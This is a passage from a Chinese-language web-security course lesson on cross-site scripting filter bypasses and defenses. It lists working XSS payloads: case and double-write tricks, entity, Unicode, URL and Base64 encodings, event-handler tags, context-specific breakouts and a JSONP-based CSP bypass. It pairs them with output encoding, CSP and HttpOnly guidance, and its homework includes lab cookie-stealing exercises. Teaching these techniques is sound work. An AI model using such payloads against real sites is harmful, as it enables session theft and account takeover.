<SCRIPT>alert(1)</SCRIPT>

<ScRiPt>alert(1)</ScRiPt>


```

### 双写绕过
某些过滤逻辑把 `script` 替换为空，但只替换一次：

```plain
<scr<script>ipt>alert(1)</scr</script>ipt>
                  ↓ 过滤后
<script>alert(1)</script>

```

---

## 4.3 编码绕过
### HTML 实体编码
```plain
<a href="javascript:alert(1)">点我</a>

                  ↓ 编码
<a href="&#106;avascript:alert(1)">点我</a>

<a href="&#x6a;avascript:alert(1)">点我</a>

```

### JavaScript Unicode 编码
```javascript
\u0061\u006c\u0065\u0072\u0074(1)   // 等于 alert(1)
```

### URL 编码
```plain
<a href="javascript:%61%6c%65%72%74%28%31%29">点我</a>

```

### Base64 + data: URI
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
</object>

```

解码后是 `<script>alert(1)</script>`。

---

## 4.4 标签 / 事件绕过
### 各种 on* 事件
```html

<svg onload=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<details open ontoggle=alert(1)>
<select onfocus=alert(1) autofocus>
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>
<marquee onstart=alert(1)>
<keygen onfocus=alert(1) autofocus>
```

### 不需要事件的标签
```html
<a href="javascript:alert(1)">x</a>

<iframe src="javascript:alert(1)"></iframe>

<form action="javascript:alert(1)"><input type=submit>
<object data="javascript:alert(1)">
```

---

## 4.5 上下文相关绕过（最重要）
> 🎯 **核心理解**：  
XSS Payload 的形态**取决于它被插入到了什么 HTML 上下文**。  
上下文不同，绕过方法完全不同。
>

### 上下文 1：插入到 HTML 标签之间
```html
<div>你好，[这里插入]</div>

```

直接 `<script>alert(1)</script>` 或 ``。

### 上下文 2：插入到 HTML 属性值内
```html
<input value="[这里插入]">
```

需要**先闭合属性**：

```plain
" onfocus=alert(1) autofocus="
```

### 上下文 3：插入到 JS 字符串内
```javascript
var name = "[这里插入]";
```

需要**闭合引号 + 闭合语句**：

```plain
";alert(1);//
```

变成：

```javascript
var name = "";alert(1);//";
```

### 上下文 4：插入到 URL（href/src）
```html
<a href="[这里插入]">
```

利用 `javascript:` 伪协议：

```plain
javascript:alert(1)
```

### 上下文 5：插入到 `<script>` 内（最难）
```javascript
<script>
    var data = "[这里插入]";
</script>

```

如果 `<` 被编码但 `"` 可以用：

```plain
";alert(1);//
```

如果 `"` 也被编码，可能需要利用 Unicode 转义：

```plain
\";alert(1)//
```

---

## 4.6 CSP（内容安全策略）
### CSP 是什么？
> **CSP (Content Security Policy)** 是浏览器端的最后防线。  
通过 HTTP Header 或 `<meta>` 标签告诉浏览器：**哪些来源的资源允许加载执行**。
>

### CSP 配置示例
```plain
Content-Security-Policy:
    default-src 'self';                           ← 默认只允许同源
    script-src 'self' https://cdn.example.com;    ← 脚本只允许同源+指定 CDN
    style-src 'self' 'unsafe-inline';             ← 允许内联样式
    img-src *;                                    ← 图片任意
    connect-src 'self' https://api.example.com;   ← AJAX 限制
    report-uri /csp-report;                       ← 违规上报
```

### CSP 防什么？
```plain
默认禁止：
  ❌ 内联 <script>             → 需要 nonce 或 hash
  ❌ 内联事件 onclick=...      → 需要 unsafe-inline
  ❌ eval()                    → 需要 unsafe-eval
  ❌ 外域 .js 文件             → 需白名单
  ❌ javascript: 伪协议        → 默认禁止
```

### CSP 绕过（高阶）


### JSONP 绕过示例
假设 CSP 允许 `script-src 'self'`，且目标网站本身有 JSONP 接口：

```plain
https://target.com/api/jsonp?callback=alert(1)//
```

返回：

```plain
alert(1)//({"name":"x"})
```

攻击者注入：

```html
<script src="https://target.com/api/jsonp?callback=alert(1)//"></script>

```

→ 绕过 CSP 执行 alert。

---

## 4.7 HttpOnly Cookie
### 设置方法
```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

### 三个标志作用
| 标志 | 作用 |
| --- | --- |
| `HttpOnly` | JS 无法通过 document.cookie 读到 |
| `Secure` | 仅 HTTPS 发送 |
| `SameSite=Strict/Lax` | 跨站请求不带 Cookie（防 CSRF） |


> 🎯 **关键理解**：  
**HttpOnly 不能防 XSS，但能减轻 XSS 偷 Cookie 的危害**。  
XSS 仍可发请求（用 fetch 带 Cookie），但读不到 Cookie 内容。
>

---

## 4.8 输出编码（最根本的防御）
### 不同上下文不同编码


### PHP 示例
```php
// ❌ 错误
echo "<div>欢迎：" . $name . "</div>";

// ✅ 正确（HTML 上下文）
echo "<div>欢迎：" . htmlspecialchars($name, ENT_QUOTES, 'UTF-8') . "</div>";

// ✅ 正确（属性上下文）
echo '<input value="' . htmlspecialchars($name, ENT_QUOTES) . '">';

// ✅ 正确（JS 上下文）
echo '<script>var name = ' . json_encode($name, JSON_HEX_TAG) . ';</script>';

// ✅ 正确（URL 上下文）
echo '<a href="?q=' . urlencode($q) . '">搜索</a>';
```

### 富文本场景：白名单过滤
如果必须允许用户输入 HTML（如博客），用白名单库：

```php
// HTML Purifier
require_once 'HTMLPurifier.auto.php';
$config = HTMLPurifier_Config::createDefault();
$purifier = new HTMLPurifier($config);
$clean = $purifier->purify($dirty_html);
```

允许：`<b> <i> <p> <a href>`  
禁止：`<script> <iframe> on* 事件 javascript:`

---

## 4.9 防御方案总结


### 现代框架的默认安全
| 框架 | 默认行为 |
| --- | --- |
| React `{name}` | 自动 HTML 编码 |
| Vue `{{ name }}` | 自动 HTML 编码 |
| Angular `{{ name }}` | 自动 HTML 编码 |
| Jinja2 `{{ name }}` | 自动 HTML 编码 |
| Thymeleaf `[[${name}]]` | 自动 HTML 编码 |
| PHP Twig `{{ name }}` | 自动 HTML 编码 |


> ⚠️ **危险信号**：`dangerouslySetInnerHTML` (React) / `v-html` (Vue) / `{!! !!}` (Blade) / `th:utext` (Thymeleaf) —— 这些是**故意关闭自动转义**的，必须确保数据可信。
>

---

## 4.10 真实案例赏析
### 案例 1：微博 XSS 蠕虫 (2011)
+ 漏洞点：微博的短链跳转接口未过滤 `javascript:`
+ 攻击者发布含 `javascript:...` 的链接
+ 用户点击后自动转发 + 自动关注 + 发私信
+ 16 小时感染 3 万用户

### 案例 2：Samy MySpace Worm (2005)
+ 平台：MySpace
+ 攻击者：Samy Kamkar
+ 1 天感染 100 万用户
+ 法律后果：3 年缓刑 + 90 天社区服务

### 案例 3：Apache.org XSS (2010)
+ 攻击者通过 XSS 偷到管理员 Cookie
+ 用管理员权限修改了 Apache 官网首页
+ 影响数百万 Java 开发者

### 案例 4：淘宝评价 XSS (2014)
+ 商品评价中注入 `<script>`
+ 所有查看商品的用户触发
+ 用于刷销量、引流

### 案例 5：XSS 钓鱼邮件 (常态)
+ 邮件正文是 HTML
+ 攻击者插入 `<script>` 或 ``
+ 部分邮箱客户端会执行（特别是老版本 Outlook）

---

## 4.11 第 4 课小结
| 知识点 | 一句话 |
| --- | --- |
| 大小写绕过 | `<ScRiPt>` |
| 双写绕过 | `<scr<script>ipt>` |
| 编码绕过 | HTML 实体 / Unicode / URL / Base64 |
| 上下文相关 | HTML / 属性 / JS / URL 各有不同绕过 |
| CSP | 浏览器端最后防线 |
| HttpOnly | 防 Cookie 被 JS 读 |
| 输出编码 | 最根本防御 |
| 现代框架 | 默认自动转义 |
| 危险 API | v-html / dangerouslySetInnerHTML |


---

# 📝 课程总回顾（必背 30 条）
### 基础
1. XSS = 跨站脚本，本质是 JS 注入
2. 同源策略：协议+域名+端口三同
3. XSS 绕过同源：因为 JS 注入到目标页面
4. 三型：反射型 / 存储型 / DOM 型
5. JS 浏览器能力：Cookie / DOM / AJAX / 重定向

### 反射型
6. URL 参数注入，一次性
7. 高发：搜索框 / 错误页 / 重定向
8. 经典 Payload：`<script>alert(1)</script>`
9. 危害来源：受害者页面能做的，JS 都能做
10. 需要诱导点击（短链/钓鱼邮件）

### 存储型
11. 持久化到 DB，访问即触发
12. 危害 > 反射型（多用户自动触发）
13. 高发：留言板 / 评论区 / 昵称 / 站内信
14. 一次提交，所有访问者受害
15. 蠕虫化 → 286 条破坏系统罪

### DOM 型
16. 纯客户端 JS，不经过服务器
17. Source：location.hash / search / referrer
18. Sink：innerHTML / document.write / eval
19. 服务器日志看不到 hash
20. 关闭浏览器 JS 即无法触发

### 利用
21. 偷 Cookie：Image().src 上报
22. 键盘记录：document.onkeypress
23. 钓鱼：全屏覆盖假登录框
24. BeEF：浏览器利用框架
25. 蠕虫：自我复制 + 自动传播

### 绕过 / 防御
26. 大小写 / 双写 / 编码绕过
27. 上下文相关：HTML / 属性 / JS / URL
28. CSP = 浏览器端最后防线
29. HttpOnly = 防 Cookie 被 JS 读
30. 输出编码 = 最根本防御

---

# 🎯 课后作业
### 基础题
1. 启动自建 Flask 反射型 + DOM 型靶场，curl 测试 5 种 Payload
2. 完成 xss-labs Level 1-10，每关写出绕过原理
3. 在 pikachu 三型 XSS 关卡各提交一个弹窗 PoC

### 进阶题
4. 搭建 Python Cookie 接收平台，在 pikachu 留言板注入偷 Cookie Payload
5. 安装 BeEF，注入 hook.js，体验 5 个核心命令
6. 编写一段 CSP 配置，禁止内联脚本但允许同源和外域 CDN

### 实战题
7. **代码审计**：找一个开源 PHP 项目，找出所有 `echo $_GET` 类型的 XSS 点
8. **写绕过**：DVWA XSS High 关卡，写出 3 种不同绕过方法
9. **写报告**：模拟 SRC 提交一份完整 XSS 报告（含上下文分析 + 修复方案）

---
